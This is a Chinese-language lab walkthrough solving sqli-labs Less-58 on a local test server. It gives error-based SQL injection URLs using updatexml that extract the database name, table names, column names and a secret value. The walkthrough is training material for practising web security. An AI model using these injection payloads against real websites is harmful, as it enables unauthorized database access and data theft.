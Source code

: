 ```yaml
---
title: Less - 58
date: 2023-03-24T19:25:48Z
lastmod: 2023-03-24T19:37:29Z
---
```


# Less - 58

---

# 通关教程

---

## 1、判断闭合

---

```http
http://192.168.23.128/sqli-labs/Less-58/?id=1'
```

​![image](assets/image-20230324192755-146ip1e.png)​

根据错误显示判断闭合方式为'--+，并且为字符型注入，因为这里有完整的报错信息，所以可以使用报错注入攻击

---

## 2、查看当前库

---

```http
http://192.168.23.128/sqli-labs/Less-58/?id=1' and updatexml(1,concat(0x7e,(database()),0x7e),1)--+
```

​![image](assets/image-20230324192949-y0uuzhw.png)​

---

## 3、查看challenges库下的所有表

---

```http
http://192.168.23.128/sqli-labs/Less-58/?id=1' and updatexml(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema='challenges'),0x7e),1)--+
```

​![image](assets/image-20230324193123-adjr0r4.png)​

---

## 4、查看0jphobw9pw表下的所有字段

---

```http
http://192.168.23.128/sqli-labs/Less-58/?id=1' and updatexml(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_name='0jphobw9pw'),0x7e),1)--+
```

​![image](assets/image-20230324193540-zxqx3jp.png)​

---

## 5、查看secret_H4GR字段下的值

---

```http
http://192.168.23.128/sqli-labs/Less-58/?id=1' and updatexml(1,concat(0x7e,(select group_concat(secret_H4GR) from challenges.0jphobw9pw),0x7e),1)--+
```

​![image](assets/image-20230324193704-86v8wg9.png)​

​![image](assets/image-20230324193727-ywh2e7b.png)​

‍

